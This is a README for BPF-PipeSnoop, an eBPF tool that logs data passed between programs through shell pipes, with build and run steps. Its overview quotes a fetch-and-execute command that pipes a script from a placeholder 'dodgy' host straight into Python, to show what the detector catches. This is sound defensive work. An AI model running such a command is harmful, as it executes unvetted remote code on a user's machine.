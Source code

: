 # BPF-PipeSnoop
Simple program to log data being based in using shell pipes (`|`)

# Overview
Shells can parse data between programs using pipes, e.g.:
```bash
curl https://dodgy.com/loader.py | python -
```

In this example, a python script is downloaded from the internet and executed,
without the file being written to disk, and its content is not visible on the commnandline.


`pipesnoop` is a demonstration of how you could detect when data is being passed using pipes
and log it, all using eBPF.

# Building
```bash
# First clone the repository and the libbpf submodule
git clone --recursive <repo_url>
cd bpf-pipesnoop/src

make
```
This should generate the program `pipesnoop` in the same directory.

# Running
Just run as root and watch the output:
```bash
sudo ./pipesnoop
```


# How it works




# Aknowledgements
The skeleton of this project was made with the help of [Libpf-Bootstrap](https://github.com/libbpf/libbpf-bootstrap).
